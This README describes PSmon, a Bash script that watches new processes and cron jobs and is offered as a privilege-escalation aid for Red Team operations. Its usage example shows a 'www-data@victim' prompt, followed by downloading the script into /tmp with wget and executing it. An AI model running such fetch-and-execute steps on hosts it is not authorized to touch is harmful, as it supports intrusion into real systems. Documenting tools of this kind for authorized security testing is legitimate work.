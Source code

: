 # PSmon

**Bash script to monitor new processes and cron tasks that run at regular intervals of time.**

(Very useful tool to escalate privileges in Red Team operations)

```batch
www-data@victim:~$ cd /tmp
www-data@victim:~$ wget https://raw.githubusercontent.com/d4t4s3c/PSmon/main/PSmon.sh
www-data@victim:~$ chmod +x PSmon.sh
www-data@victim:~$ ./PSmon.sh
```
**Screenshot**

![](/1.png)
